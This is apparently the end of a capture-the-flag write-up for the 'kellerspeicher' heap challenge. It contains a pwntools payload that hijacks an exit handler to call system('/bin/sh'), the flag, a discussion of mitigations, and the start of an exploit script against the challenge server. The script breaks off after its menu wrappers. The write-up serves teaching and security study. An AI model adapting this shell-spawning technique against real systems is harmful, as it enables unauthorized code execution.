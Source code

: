 or using pwntools in python:

```python
payload = flat(
    p64(4), # ef_cxa
    p64(rol(system_addr, 17)),
    p64(bin_sh_addr)
)
```

## Flag

`CSCG{einkellern_auskellern_umkellern_unterkellern__kellerspeicher_machen_spass}`

## Mitigations
The simple mitigation is to remove the `unterkellern` functionality. As this functionality is likely there to simplify the challenge and simulates an actual bug, we also need to consider, how to avoid the underlying bug. 

One solution would be to always perform a bounds check after modifying a GC allocated pointer. But as this is likely going to be slow, requires extra effort by developer and makes the code harder to read, which in turn allows other bugs to slip through code review, is not a good option. 

As always with code, the best practices regarding
- Clean code,
- Code reviews and
- Fuzzing

can prevent most of those bugs.

An even better option, is to use memory safe languages like Rust.

TL;DR: As always with `C`: Memory safety management.

## Exploit - Script

```python
from pwn import *

# local
# p = remote("localhost", 1024)

# remote
p = remote("ae2e08417837a15ad1c6647c-1024-kellerspeicher.challenge.cscg.live", 1337, ssl=True)

### wrappers ###
def create_haupt(size: int):
    p.sendlineafter(b"Wahl: ", b"1")
    p.sendlineafter("Größe des Kellers:".encode(), str(size).encode())

def create_neben(size: int):
    p.sendlineafter(b"Wahl: ", b"2")
    p.sendlineafter("Größe des Kellers:".encode(), str(size).encode())

def create_neben_str(size: int) -> bytes:
    return b"2\n" + str(size - 1).encode() + b"\n"

def del_haupt():
    p.sendlineafter(b"Wahl: ", b"3")

def del_neben():
    p.sendlineafter(b"Wahl: ", b"4")

def del_neben_str() -> str:
    return b"4\n"

```